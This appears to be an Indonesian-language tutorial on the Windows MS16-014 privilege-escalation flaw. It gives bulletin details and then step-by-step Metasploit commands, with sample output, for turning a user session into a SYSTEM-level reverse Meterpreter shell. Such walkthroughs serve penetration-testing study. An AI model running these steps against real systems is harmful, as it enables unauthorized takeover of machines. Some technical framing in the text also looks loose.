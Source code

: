 # MS16-014

## A. Apa itu MS16-014?

[MS16-014](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014) adalah kerentanan Local Privilege Escalation (LPE) pada Windows Kernel, khususnya terkait dengan manajemen Windows Task Scheduler dan komponen internal `win32k.sys`.

Kerentanan ini memungkinkan pengguna lokal dengan hak terbatas untuk menjalankan kode arbitrer di level kernel, dan mendapatkan hak akses `SYSTEM`. Ini dilakukan dengan cara mengeksploitasi kesalahan dalam validasi objek kernel dan manipulasi struktur internal.

## B. Detail Teknis:
- CVE ID: `CVE-2016-0040`
- Buletin: `MS16-014`
- Tanggal Rilis: `9 Februari 2016`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Platform: `Windows`
 -Arsitektur: `x86` dan `x64`
- Skor CVSS: `7.5` (Tinggi)
  
## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-014`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS16-014:

   ```
   msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] OS Version: Windows 7 Service Pack 1
   [*] Reflectively injecting the exploit DLL and running it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1276 launched.
   [*] Reflectively injecting the DLL into 1276...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 20 opened (192.168.1.42:4444 -> 192.168.1.50:49179) at 2025-05-14 17:34:54 +0700

   meterpreter > 
   ```
   
   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
